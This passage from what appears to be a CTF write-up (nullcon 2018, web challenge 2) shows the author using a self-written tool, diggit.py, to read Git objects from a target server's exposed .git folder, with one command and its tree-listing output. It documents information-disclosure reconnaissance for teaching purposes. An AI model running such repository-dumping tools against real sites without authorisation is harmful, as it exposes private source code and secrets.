 

There are two very interesting comments - some files were added and then removed:




![Screen caption](assets/5.png)



Let's try to figure them out (I am using here my own tool I wrote some time ago - ```diggit.py``` https://github.com/bl4de/security-tools/tree/master/diggit) 

If you are interested how it works, and how to obtain information from ```.git``` folder in general: take a look at my writeup here: https://github.com/bl4de/research/tree/master/hidden_directories_leaks#git)


First, in one of the commits I found an information about SHA1 hash of directory tree (d0e6ad36b77a2c8f9ba6708c995f1cb830b9e7fa):


```
$ ./diggit.py  -t /Users/bl4de/hacking/ctf/2018/nullcon_CTF_2018/web2/ -u http://34.201.73.166/  -o d0e6ad36b77a2c8f9ba6708c995f1cb830b9e7fa
usage: diggit.py [-h] [-u U] [-t T] [-o O] [-r R]

diggit.py - get information about Git object(s) from remote repository

optional arguments:
  -h, --help  show this help message and exit
  -u U        URL of remote Git repository location
  -t T        path to temporary Git folder on local machine
  -o O        object hash (SHA-1, all 40 characters)
  -r R        be recursive (if commit or tree hash found get all blobs too).
              Default is 'False'


##############################################################################
###                                                                        ###
###                                                                        ###
###         diggit.py  |  Twitter: @_bl4de  | GitHub: bl4de                ###
###                                                                        ###
###                                                                        ###
##############################################################################

############ d0e6ad36b77a2c8f9ba6708c995f1cb830b9e7fa information ############

[*] Object type: tree

[*] Object content:

040000 tree 4838e77b2bb4655d0b46165ec6473460dc90b4dd	3e90c63922fa145442bb58d18b62af6c21717fee
100644 blob f33993193d51b645f99d63497ae7265820e05eda	header.jpg
100644 blob 59ba645070811b01a63dd8f8af89a65b21408643	index.html
100644 blob b5a144fb1fcf2acdcd5db2ac0725ed2679aa06aa	style.css


##############################################################################
```
